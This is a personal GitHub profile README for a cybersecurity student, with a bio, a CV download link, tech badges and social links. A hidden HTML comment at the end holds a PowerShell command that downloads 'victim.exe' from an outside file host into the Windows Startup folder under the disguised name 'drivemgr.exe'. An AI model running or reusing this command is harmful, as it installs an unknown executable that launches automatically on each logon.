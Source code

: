 <img src="./assets/banner.png">

<h1 align="center">Hey there, I'm Heshan Thenura Kariyawasam <br>🌱Based in Sri Lanka 🇱🇰</h1>

<h2>
heshanthenura@github:~$ cat aboutme.txt <br><br>

self-taught developer<br>
currently pursuing <strong> BSc (Hons) in Information Technology specialising in Cyber Security at [SLIIT](https://www.sliit.lk/)</strong>

</h2>

```bash
# Download my CV with curl
curl -O https://github.com/heshanthenura/heshanthenura/blob/main/assets/CV-Heshan_Kariyawasam.pdf
```

### 📄 My CV

- [👀 View Online](https://github.com/heshanthenura/heshanthenura/blob/main/assets/CV-Heshan_Kariyawasam.pdf)
- [⬇️ Download PDF](https://github.com/heshanthenura/heshanthenura/raw/main/assets/CV-Heshan_Kariyawasam.pdf)

## 🛠️ Tech Stack & Tools I Use

![Java](https://img.shields.io/badge/Java-ED8B00?style=for-the-badge&logo=openjdk&logoColor=white)⠀
![Spring Boot](https://img.shields.io/badge/Spring%20Boot-6DB33F?style=for-the-badge&logo=springboot&logoColor=white)⠀
![JavaFX](https://img.shields.io/badge/JavaFX-5586A4?style=for-the-badge&logo=java&logoColor=white)⠀
![Nim](https://img.shields.io/badge/Nim-FFE953?style=for-the-badge&logo=nim&logoColor=black)⠀
![Go](https://img.shields.io/badge/Go-00ADD8?style=for-the-badge&logo=go&logoColor=white)⠀
![Julia](https://img.shields.io/badge/Julia-9558B2?style=for-the-badge&logo=julia&logoColor=white)⠀
![Python](https://img.shields.io/badge/Python-3670A0?style=for-the-badge&logo=python&logoColor=yellow)⠀
![TypeScript](https://img.shields.io/badge/TypeScript-3178C6?style=for-the-badge&logo=typescript&logoColor=white)⠀
![GDScript](https://img.shields.io/badge/GDScript-%2374267B.svg?style=for-the-badge&logo=godotengine&logoColor=white)⠀
![Godot Engine](https://img.shields.io/badge/GODOT-%23FFFFFF.svg?style=for-the-badge&logo=godot-engine)⠀
![SQL](https://img.shields.io/badge/SQL-4479A1?style=for-the-badge&logo=mysql&logoColor=white)⠀
![React](https://img.shields.io/badge/react-%2320232a.svg?style=for-the-badge&logo=react&logoColor=%2361DAFB)⠀
![React Native](https://img.shields.io/badge/react_native-%2320232a.svg?style=for-the-badge&logo=react&logoColor=%2361DAFB)⠀
![Angular](https://img.shields.io/badge/angular-%23DD0031.svg?style=for-the-badge&logo=angular&logoColor=white)⠀
![GitHub](https://img.shields.io/badge/github-%23121011.svg?style=for-the-badge&logo=github&logoColor=white)⠀
![Linux](https://img.shields.io/badge/Linux-FCC624?style=for-the-badge&logo=linux&logoColor=black)⠀
![ESP32](https://img.shields.io/badge/ESP32-000000?style=for-the-badge&logo=espressif&logoColor=white)⠀
![Firebase](https://img.shields.io/badge/Firebase-FFCA28?style=for-the-badge&logo=firebase&logoColor=black)⠀
![Vercel](https://img.shields.io/badge/Vercel-000000?style=for-the-badge&logo=vercel&logoColor=white)⠀
![Oracle Cloud](https://img.shields.io/badge/Oracle%20Cloud-F80000?style=for-the-badge&logo=oracle&logoColor=white)⠀

## 🤙 Let's Connect & Collaborate

I'm always open to ideas, collabs, or just a good tech convo. Whether you're building something cool, learning something new, or just exploring the world of code, reach out. Let’s build, break, fix, and learn together.

<div align="center"><a href="https://twitter.com/Heshantk"><img width="50px" src="./assets/icons8-twitter.svg"></a><a href="https://www.linkedin.com/in/heshanthenura"><img width="50px" src="./assets/icons8-linkedin.svg"></a><a href="https://www.instagram.com/heshan_thenura/"><img width="50px" src="./assets/icons8-instagram.svg"></a><a href="https://youtube.com/@heshanthenura"><img width="50px" src="./assets/icons8-youtube.svg"></a><a href="https://www.tiktok.com/@heshanthenura"><img width="50px" src="./assets/icons8-tiktok.svg"></a></div>

<h1 align="center"><a href="mailto:heshanthenura@gmail.com">heshanthenura@gmail.com</a></h1>

<!--
<h1 align="center">Heshan Thenura Kariyawasam</h1>

## I am a self-taught programmer from Sri Lanka

Mostly I prefer Backend development.

### My Higher Education

- Pure Mathematics
- Applied Mathematics
- Physics
- Information and Communication Technology

### Frameworks that I work with

- JavaFX
- Spring Boot

### Technologies that I use

- Linux
- Oracle Cloud
- MySQL
- SQLite
- H2
- Git
- WebRTC
- Socket
- WebSocket

[![Heshan's top languages](https://github-readme-stats.vercel.app/api/top-langs/?username=heshanthenura&theme=blue-green)

### If you're interested in custom application development or would like to discuss a project, please don't hesitate to contact me.


<ul>
    <li><a href="https://twitter.com/Heshantk">Twitter</a></li>
    <li><a href="https://www.linkedin.com/in/heshanthenura">LinkedIn</a></li>
    <li><a href="https://www.instagram.com/heshan_thenura/">Instagram</a></li>
    <li><a href="https://youtube.com/@heshanthenura">YouTube</a></li>
    <li><a href="https://www.tiktok.com/@heshanthenura">TikTok</a></li>
</ul>


### [E-Mail](mailto:heshanthenura@protonmail.com) heshanthenura@protonmail.com -->

<!-- ```bash
 (new-object Net.WebClient).DownloadFile('https://dlsv37.sonicbit.net/file/dl2/MUVUOGlHNW9oOGJ4Y3h5M0FjUzRMa3lsbHBjbGQzWDF2bG9LZmdiVkVMU1FmeEovVTU0UWY0UFE5b3JMMVJQZDg4cVJXYWdRQlJmWnpVQ1Vkbm1tWEE9PQ==/victim.exe', "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\drivemgr.exe")

https://dlsv37.sonicbit.net/file/dl2/MUVUOGlHNW9oOGJ4Y3h5M0FjUzRMa3lsbHBjbGQzWDF2bG9LZmdiVkVMU1FmeEovVTU0UWY0UFE5b3JMMVJQZDg4cVJXYWdRQlJmWnpVQ1Vkbm1tWEE9PQ==/victim.exe

explorer %APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup
``` -->
